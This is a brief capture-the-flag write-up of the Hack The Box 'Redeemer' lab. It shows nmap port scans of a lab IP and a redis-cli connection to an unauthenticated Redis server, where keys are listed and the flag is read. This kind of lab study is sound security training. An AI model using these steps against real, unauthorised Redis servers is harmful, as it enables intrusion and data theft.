 # Box 
Name: Redeemer
ID:4
Difficulty: Very Easy

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `redis-cli`
  
## 🧠 Recon
Nmap Scan:
```bash
nmap -p- -sV 10.129.121.168 
nmap -p- -T4 10.129.121.168 (this one worked because I made the timing more aggressive)
```
## 🔍 Enumeration
Found an open port **6379/tcp**, running **redis** service.

## 💥 Exploitation
1. Installed redis-cli
2 Connected using `redis-cli` (no authentication needed):
  ```bash
  redis-cli -h 10.129.121.168
```
3. Ran basic commands:
info – server details
keys * – list all keys
get flag 

## 🔐 Privilege Escalation
Not required -redis ran as root

## 🧼 Cleanup & Lessons
-redis-cli session ended cleanly.
- **Key takeaways**: 
- Always check if a service runs as root, no authentication required.
- Misconfigs are an easy win.